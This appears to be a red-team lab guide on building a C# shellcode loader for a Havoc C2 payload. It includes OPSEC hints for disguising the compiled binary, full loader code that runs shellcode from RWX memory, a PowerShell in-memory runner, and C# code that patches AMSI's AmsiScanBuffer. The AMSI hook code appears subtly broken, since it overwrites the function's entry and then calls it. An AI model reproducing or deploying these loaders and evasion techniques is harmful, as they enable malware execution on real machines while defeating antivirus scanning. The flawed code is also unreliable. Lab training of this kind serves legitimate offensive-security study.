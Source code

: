 # Lab - Shellcode


> OPSEC HINT : Let's apply some basic best practices when we compile the following code
> 1. add and icon file to the dotnet app.
> 2. add metadata
> 3. compile with CSC

When compiling the dotnet code you can specify the .net version
```powershell

```

We'll need the .Net Developer Pack 4.8, let's see if it is installed:

```cmd
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Version
```

CSC.exe is located in "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe"


>HINT : Remember that AMSI will behave differently with .net assemblies than it would when using powershell scripts. In a powershell script amsi.?dll is automatically loaded into powershell, with dotnet assemblies AMSI will interact with the CLR on demand.

Let's generate a Havoc shellcode payload (on `KALI` using the Havoc GUI):

Switch to your windows and under `"C:\THEV\Labs\LocalLoader"` you'll find a csharp solution file - open that with Visual Studio 2022.

We'll now build our own custom (but very basic) shellcode loader in CSHARP (= dotnet assembly).

```csharp
using System;
using System.Runtime.InteropServices;

namespace ShellcodePayload
{
    class Payload
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main()
        {
            // (1) insert our shellcode
            byte[] shellCode = new byte[] { /* insert shellcode here */ };

            // (2) allocate memory for shellcode
            UInt32 MEM_COMMIT = 0x1000;
            UInt32 PAGE_EXECUTE_READWRITE = 0x40;
            IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            // (3) inject shellcode into allocated memory
            Marshal.Copy(shellCode, 0, funcAddr, shellCode.Length);

            // (4) execute injected shellcode
            UInt32 threadId = 0;
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

----

To monitor AMSI (Antimalware Scan Interface) calls and see what is being scanned, you would need to hook into the AMSI functions. This is a more advanced technique and typically involves using a debugger or writing a custom DLL to intercept AMSI calls. Below is an example of how you might achieve this using PowerShell and C# to create a custom DLL that hooks into AMSI functions.

First, create a C# DLL to hook AMSI functions:

```csharp
using System;
using System.Runtime.InteropServices;

public class AmsiHook
{
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string lpFileName);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    private static IntPtr amsiScanBufferPtr;
    private static AmsiScanBufferDelegate originalAmsiScanBuffer;

    private delegate int AmsiScanBufferDelegate(IntPtr amsiContext, IntPtr buffer, uint length, string contentName, IntPtr amsiSession, out int result);

    public static void HookAmsi()
    {
        IntPtr amsiDll = LoadLibrary("amsi.dll");
        if (amsiDll == IntPtr.Zero)
        {
            throw new Exception("Failed to load amsi.dll");
        }

        amsiScanBufferPtr = GetProcAddress(amsiDll, "AmsiScanBuffer");
        if (amsiScanBufferPtr == IntPtr.Zero)
        {
            throw new Exception("Failed to get AmsiScanBuffer address");
        }

        uint oldProtect;
        VirtualProtect(amsiScanBufferPtr, (UIntPtr)IntPtr.Size, 0x40, out oldProtect);

        originalAmsiScanBuffer = (AmsiScanBufferDelegate)Marshal.GetDelegateForFunctionPointer(amsiScanBufferPtr, typeof(AmsiScanBufferDelegate));
        Marshal.WriteIntPtr(amsiScanBufferPtr, Marshal.GetFunctionPointerForDelegate(new AmsiScanBufferDelegate(HookedAmsiScanBuffer)));

        VirtualProtect(amsiScanBufferPtr, (UIntPtr)IntPtr.Size, oldProtect, out oldProtect);
    }

    private static int HookedAmsiScanBuffer(IntPtr amsiContext, IntPtr buffer, uint length, string contentName, IntPtr amsiSession, out int result)
    {
        byte[] managedBuffer = new byte[length];
        Marshal.Copy(buffer, managedBuffer, 0, (int)length);
        Console.WriteLine("AMSI Scan Buffer: " + BitConverter.ToString(managedBuffer));

        return originalAmsiScanBuffer(amsiContext, buffer, length, contentName, amsiSession, out result);
    }
}
```

Next, compile the C# code into a DLL:

```sh
csc /target:library /out:C:\git\code\amsidll\AmsiHook.dll C:\git\code\amsidll\AmsiHook.cs
```

Then, create a PowerShell script to load the DLL and hook AMSI functions:

```powershell
Add-Type -Path "C:\git\code\amsidll\AmsiHook.dll"

# Hook AMSI functions
[AmsiHook]::HookAmsi()

# Your shellcode loader script
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode

# Allocate memory
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($shellcode.Length)
Write-Output "Allocated $($shellcode.Length) bytes of memory at address: $mem"

# Copy shellcode to memory
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $mem, $shellcode.Length)
Write-Output "Copied shellcode to memory at address: $mem"

# Create thread to execute shellcode
$thread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($mem, [System.Threading.ThreadStart])
Write-Output "Created thread to execute shellcode at address: $mem"

# Start the thread
$thread.Invoke()
Write-Output "Started thread to execute shellcode"

# Wait for thread to exit (optional)
[System.Threading.Thread]::Sleep(-1)
Write-Output "Thread is running, waiting for it to exit (optional)"
```

This script will hook into the AMSI functions and print the buffer being scanned by AMSI. Note that this is a simplified example and may require additional error handling and adjustments for a production environment.